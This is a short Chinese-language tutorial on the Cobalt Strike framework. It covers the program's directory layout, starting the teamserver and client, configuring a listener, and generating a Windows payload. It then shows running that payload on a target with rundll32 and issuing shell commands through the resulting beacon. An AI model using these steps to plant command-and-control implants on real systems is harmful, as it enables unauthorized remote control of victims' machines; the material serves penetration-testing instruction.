 

# CobaltStrike


- [CobaltStrike](#CobaltStrike)
    - [简介](#简介)
    - [使用](#使用)
        - [启动](#启动)
        - [上线一个目标](#上线一个目标)

## 简介

Cobalt Strike是一款渗透测试神器，常被业界人称为CS神器。Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。
Cobalt Strike集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

- 官网地址：https://www.cobaltstrike.com/

目录说明

```
- agscript：拓展应用的脚本。
- c2lint：用于检查profile 的错误和异常。
- teamserver：团队服务器程序。
- cobaltstrike 和 cobaltstrike.jar:客户端程序。因为teamserver文件是通过Java来调用CobaltStrike 的，所以直接在命令行环境中输入第一个文件的内容也能启动Cobalt Strike 客户端 (主要是为了方便操作)。
- logs:日志，包括 Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等。
- datas：用于保存当前TeamServer的一些数据。
- update 和 update.jar：用于更新Cobalt Strike。
```

## 使用

需要先部署TeamServer团队服务器，需要设置当前主机的IP地址和团队服务器的密码

### 启动

- 服务端teamserver

```bash
./teamserver 10.30.0.95 123456
```

![image](./img/cobaltstrike-1.png)

- 客户端CobaltStrike

```bash
 ./cobaltstrike
```

![image](./img/cobaltstrike-2.png)

填写团队服务器的IP地址、端口号、用户名、密码，这里的用户名任意填写、不能是已经登录的用户名。端口号默认为50050

![image](./img/cobaltstrike-3.png)

**连接多个团队服务器**

Cobalt Strike → New Connection

![image](./img/cobaltstrike-4.png)

### 上线一个目标

- 首先配置一个监听器：CobaltStrike->Linteners->Add

![image](./img/cobaltstrike-5.png)

- 生成一个payload：Attacks->Packages->Windows Executable

![image](./img/cobaltstrike-6.png)

- 然后生成的dll上传到目标机器Windows，执行命令：

```
rundll32.exe artifact.dll Start
```

![image](./img/cobaltstrike-7.png)

可以看到目标上线成功，右键interact可执行命令

```bash
shell whoami #命令执行需要前面加上shell
```

因为cobaltstrike心跳默认60s，执行命令响应比较慢，可设置sleep加快速度

```
sleep 1
```


## 参考链接

- ffffffff0x团队-1earn的CobaltStrike教程：https://github.com/ffffffff0x/1earn/blob/b068ec66544975f03160088fcca375e95768b198/1earn/Security/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7/CobaltStrike.md
